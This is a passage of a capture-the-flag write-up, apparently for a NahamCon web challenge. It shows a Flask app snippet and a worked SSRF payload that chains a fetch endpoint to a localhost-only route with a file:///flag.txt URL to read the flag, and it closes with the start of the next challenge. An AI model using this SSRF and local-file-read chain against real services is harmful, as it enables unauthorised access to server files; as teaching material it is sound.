 ```

    response = submission_fetch(url)
    return response

def submission_fetch(url, filename=None):
    return urllib.request.urlretrieve(url, filename=filename)

@app.route('/private_submission')
def private_submission():
    if request.remote_addr != '127.0.0.1':
        return redirect(url_for('submit'))

    url = request.args.get('url')
    file_name = request.args.get('filename')

    if not url or not file_name:
        return "Please specify a URL and a file name.", 400

    try:
        submission_fetch(url, os.path.join(os.getcwd(), 'public', file_name))
    except Exception as e:
        return str(e), 500

    return "Submission received.", 200

if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0", port=5000)
```
To exploit the `/private_submission_fetch` and `/private_submission` endpoints, you need to provide specific parameters. Based on the code you mentioned, the following payload can be constructed:

The URL parameter for `/private_submission_fetch` should be set to `http://127.0.0.1:5000/private_submission?url=file:///flag.txt&filename=test.txt`. This payload aims to visit the localhost (`127.0.0.1`) and access the `/private_submission` endpoint with the `url` parameter set to `file:///flag.txt` to read the flag file, and the `filename` parameter can be set to any desired value (in this case, `test.txt`).
``http://challenge.nahamcon.com:31368/private_submission_fetch?url=http%3A%2F%2F127.0.0.1%3A5000%2Fprivate_submission%3Furl%3Dfile%3A%2F%2F%2Fflag.txt%26filename%3Dtest.txt``



![enter image description here](https://i.imgur.com/xF8hVwV.png)


by opening test.txt will get the flag 
![enter image description here](https://i.imgur.com/re4xroQ.png)




## Obligatory - Medium 

sign up and log in  the web site looking to Task Created 
